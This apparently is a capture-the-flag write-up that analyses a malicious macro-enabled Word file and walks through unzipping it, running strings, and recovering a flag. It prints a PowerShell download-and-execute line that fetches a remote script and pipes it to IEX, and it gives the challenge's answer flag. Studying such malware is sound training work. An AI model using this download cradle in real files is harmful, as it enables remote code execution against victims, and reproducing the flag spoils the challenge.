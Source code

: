 # X-Wing Specs?

> This file was sent to Jun Sato - claiming to contian specifics on our next-gen X-Wings. However, it seems to be trickery.
> 
> Can you help find out what this file is actually doing?
> 
> Please note this file may trip your anti-virus, but it contains no malicious code. Everything in the file is harmless

This one was a little tricky at the end, but when I came back to it a second time I noticed the flag in the output.

Basically, this is a Word file (.docm) which contains a compiled VBA script that downloads a PowerShell script that has an embedded Mach-O executable that contains the flag.

To start with, Word documents (at least modern Word) are just ZIP files, so we can just unzip the Word document:

```
$ unzip bad.docm
```

When doing that, I noticed one unusual file

```
inflating: word/vbaProject.bin
```

Looking at that file I noticed the following (there were a few other interesting words, but this is the main thing that stood out):

```
$ strings word/vbaProject.bin    
...
powershell (New-Object System.Net.WebClient).DownloadString('https://challenges.silicon-ctf.party/for300/mal.ps1') | IEX'
...
```

Fetching that PowerShell script and examining it I noticed the following:

```
...
[Byte[]] $buf = 0xcf,0xfa,0xed,0xfe,...
...
```

I then took the bytes from above, placed them into a file to reconstruct the binary, then ran that through strings and obtained the following interesting output:

```
$ xxd -r -p hexdump| strings | less
...
silicon{W0rd
_d0cs_ca@n_b3_a_lucerative_v3cto
...
```

Which isn't a complete flag, but it was enough that I tried and made an assumption, which worked.

```
silicon{W0rd_d0cs_ca@n_b3_a_lucerative_v3ctor}
```